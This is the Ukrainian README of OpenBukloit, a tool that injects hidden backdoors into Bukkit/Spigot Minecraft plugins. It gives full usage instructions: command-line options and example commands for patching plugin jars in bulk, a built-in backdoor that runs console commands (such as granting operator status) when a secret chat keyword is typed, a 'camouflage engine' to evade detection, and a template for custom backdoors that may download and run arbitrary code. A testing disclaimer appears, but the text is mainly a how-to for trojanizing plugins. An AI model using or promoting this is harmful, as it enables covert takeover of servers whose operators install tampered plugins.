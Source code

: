<div align="center"><h1>OpenBukloit - Інжектор бекдорів для Minecraft плагінів</h1></div>

<div align="center"><img alt="Logo" src="../logo.png"/></div>

<div align="center">
    <a href="https://github.com/VoxelHax/OpenBukloit/issues"><img alt="Open issues" src="https://img.shields.io/github/issues-raw/VoxelHax/OpenBukloit"/></a>
    <a href="https://github.com/Voxelhax/OpenBukloit/releases/latest"><img alt="GitHub downloads" src="https://img.shields.io/github/downloads/VoxelHax/OpenBukloit/total"></a>
    <img alt="Code size" src="https://img.shields.io/github/languages/code-size/VoxelHax/OpenBukloit"/>
    <a href="https://www.codefactor.io/repository/github/voxelhax/openbukloit"><img alt="CodeFactor" src="https://www.codefactor.io/repository/github/voxelhax/openbukloit/badge"/></a>
    <a href="https://discord.gg/xtaktPTzYp"><img alt="Discord" src="https://img.shields.io/discord/928214827095175199"></a>
</div>

<div align="center">
    <a href="https://github.com/Voxelhax/OpenBukloit/releases/latest"><img alt="Download" src="https://img.shields.io/badge/-ЗАВАНТАЖИТИ_ОСТАНІЙ_РЕЛІЗ_(КЛІК)-blue?style=for-the-badge"/></a>
</div>

<br>

<hr>

**Мови: [English](../README.md), [Русский](README_RU.md), [Українська](README_UA.md)**

**OpenBukloit** — сучасний та потужний універсальний інжектор бекдорів, сумісний з усіма Bukkit/Spigot/Paper/і т.д. плагінами. Його особливістю є можливість інтеграції з будь-яким плагіном без необхідності щоразу модифікувати бекдор. Більш того, він забезпечує потужний двигун камуфляжу,
що робить практично неможливим його пошук без достатніх знань чи просунутих автоматизованих інструментів. OpenBukloit був розроблений для тестування систем безпеки серверів Minecraft. Команда VoxelHax не несе відповідальності за його неправомірне використання.

Це продовження проекту **[Bukloit](https://github.com/Rikonardo/Bukloit)**, в якому ми врахували всі проблеми попереднього проекту та використали зовсім інший підхід до розробки.

## Можливості OpenBukloit
- **Повна підтримка Bukkit та його форків на будь-якій версії Minecraft.**
- **Підтримка користувальницьких бекдорів.**
- **Автоматичне завантаження JDK, тому вам не потрібно дбати про сумісність версії Java.**
- **Потужний камуфляжний двигун, що ускладнює пошук бекдору у плагіні.**

## Встановлення
Для використання OpenBukloit у вас має бути встановлена будь-яка версія Java (але не нижче 8). Потім завантажте OpenBukloit jar з [вкладки релізів](https://github.com/Voxelhax/OpenBukloit/releases/latest).

## Використання
Щоб запустити OpenBukloit, відкрийте командний рядок у каталозі, де знаходиться jar-файл OpenBukloit та введіть:

```sh
java -jar OpenBukloit.jar
```

Після імені файлу jar можна передати деякі аргументи для налаштування інжектора:

| Короткий аргумент | Довгий аргумент | Опис                                                                                                                                                                                  | Тип      |
|-------------------|-----------------|---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|----------|
| -e                | --exploit       | Шлях до скомпільованого файлу .class або до похідного коду .java, який буде використовуватися як бекдор.<br />**За замовчуванням використовується вбудований бекдор.**                | Значення |
| -m                | --mode          | Режим Може бути одиночним/множинним.<br />**За замовчуванням: <ins>multiple</ins>.**<br />У множинному режимі змінює всі файли у зазначеній папці. В одиночному - лише вказаний файл. | Значення |
| -i                | --input         | Шлях до вхідної папки/файлу (залежить від режиму).<br />**За замовчуванням: <ins>in</ins> (<ins>in.jar</ins> якщо режим одиночний).**                                                 | Значення |
| -o                | --output        | Шлях до вихідної папки/файлу (залежить від режиму).<br />**За замовчуванням: <ins>out</ins> (<ins>out.jar</ins> якщо режим одиночний).**                                              | Значення |
| -r                | --replace       | Замінювати вихідний файл, якщо він вже існує.                                                                                                                                         | Флаг     |

Але цих аргументів недостатньо для запуску OpenBukloit. Ви також маєте вказати параметри бекдора. Оскільки OpenBukloit підтримує впровадження користувацьких бекдорів, ви повинні передати додаткові аргументи, які потрібні для бекдору.

## Вбудований експлоїт

За замовчанням OpenBukloit використовує вбудований бекдор. Це простий бекдор, який дозволяє виконувати будь-які команди з консолі, написавши спеціальне ключове слово перед командою в чаті.

Параметри вбудованого бекдору:

| Довгий аргумент | Опис                                                      |
|-----------------|-----------------------------------------------------------|
| --key           | Ключове слово, яке запускає виконання консольної команди. |

Використання у грі ключа, встановленого на значення "hackthisserver":

```
hackthisserver op MyName
```

Це повідомлення, відправлене в чат, буде виконане як консольна команда і дасть ОП гравцю MyName.

**Ось кілька прикладів використання OpenBukloit із вбудованим бекдором:**

1. Пропатчити всі .jar файли з ключем "#console" із папки "in" і зберегти їх у папку "out" без заміни.

```sh
java -jar OpenBukloit.jar -m multiple -i "in" -o "out" --key "#console"
```

2. Пропатчити всі файли з ключем "hacktheserver" з папки "in" і зберегти їх у папку "out" із заміною.

```sh
java -jar OpenBukloit.jar -m multiple -i "in" -o "out" --key "hacktheserver" -r
```

3. Пропатчити один файл "PluginName.jar" з ключем "#console" і збережіть його як файл "Output.jar" із заміною.

```sh
java -jar OpenBukloit.jar -m single -i "PluginName.jar" -o "Output.jar" --key "#console" -r
```

## Написання користувальницького експлоїту

Ви також можете написати власний бекдор. Це має бути клас із методом `public static void inject(JavaPlugin args)` (JavaPlugin з Bukkit API).

Ось простий приклад:

```java
import org.bukkit.plugin.java.JavaPlugin;

public class MyBackdoor {
    public static void inject(JavaPlugin args) {
        System.out.println("Hello, world!");
    }
}
```

Метод `inject` буде виконаний після методу `onEnable` плагіна. Ви можете робити тут все, що ви хочете, включаючи завантаження та запуск довільного коду з Інтернету.

Але ви повинні знати, що є деякі обмеження:
- В даний час ви не можете використовувати вкладені класи, у файлі експлоїту має бути лише один клас.
- Ви не повинні посилатися на свій клас експлоїту всередині нього, наприклад, використовувати його як параметри методу, як значення, що повертається, або як тип поля.

Ви можете використовувати зовнішні параметри з командного рядка, використовуючи %placeholders%, вони будуть підставлені в процесі інжекта:
Ось простий приклад:

```java
import org.bukkit.plugin.java.JavaPlugin;

public class MyBackdoor {
    public static void inject(JavaPlugin args) {
        System.out.println("Hello, %name%!");
    }
}
```

Потім ви можете заінжектити бекдор за допомогою команди:

```sh
java -jar OpenBukloit.jar -e MyBackdoor.java --name world
```

Зверніть увагу, що ми можемо передати наш бекдор OpenBukloit без компіляції, і він автоматично скомпілює його з наявністю API Spigot в пулі класів під час компіляції.
